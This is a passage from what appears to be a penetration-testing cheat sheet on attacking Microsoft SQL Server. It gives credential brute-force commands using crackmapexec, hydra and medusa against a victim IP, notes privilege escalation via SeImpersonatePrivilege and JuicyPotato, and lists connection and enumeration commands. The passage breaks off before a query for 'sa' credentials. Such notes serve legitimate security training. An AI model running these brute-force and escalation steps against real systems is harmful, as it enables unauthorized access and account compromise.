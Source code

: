 **Post-Exploit PrivEsc**

The user running MSSQL server will have the privilege token **SeImpersonatePrivilege** enabled. You will probably be able to escalate to Administrator using this and [JuicyPotato](https://github.com/ohpe/juicy-potato)

### 2.15.1 MSSQL Credential Bruteforcing

```sh
# Be carefull with the number of password in the list, this could lock-out accounts
# Use the NetBIOS name of the machine as domain, if needed
crackmapexec mssql -d DOMAINNAME -u usernames.txt -p passwords.txt $VICTIM_IP
hydra -V -f -L /path/to/usernames.txt –P /path/to/passwords.txt $VICTIM_IP mssql
medusa -h $VICTIM_IP –U /path/to/usernames.txt –P /path/to/passwords.txt –M mssql
```

### 2.15.2 MSSQL Interaction

**Connecting to the MSSQL server**

From kali, for interactive session:

```sh
# simplest tool for interactive MSSQL session
impacket-mssqlclient USERNAME:PASSWORD@VICTIM_IP -windows-auth
# requires double quotes for xp_cmdshell strings

# alternative option, can use single quotes for xp_cmdshell strings
sqsh -S $VICTIM_IP -U 'DOMAIN\USERNAME' -P PASSWORD [-D DATABASE]
```

From Windows:

```bat
sqlcmd -S SERVER -l 30
sqlcmd -S SERVER -U USERNAME -P PASSWORD -l 30
```

**Useful commands:**

```sql
-- show username
select user_name();
select current_user;  -- alternate way

-- show server version
select @@version;

-- get server name
select @@servername;

-- show list of databases ("master." is optional)
select name from master.sys.databases;
exec sp_databases;  -- alternate way
-- note: built-in databases are master, tempdb, model, and msdb
-- you can exclude them to show only user-created databases like so:
select name from master.sys.databases where name not in ('master', 'tempdb', 'model', 'msdb');

-- use database
use master

-- getting table names from a specific database:
select table_name from somedatabase.information_schema.tables;

-- getting column names from a specific table:
select column_name from somedatabase.information_schema.columns where table_name='sometable';

-- get credentials for 'sa' login user:
```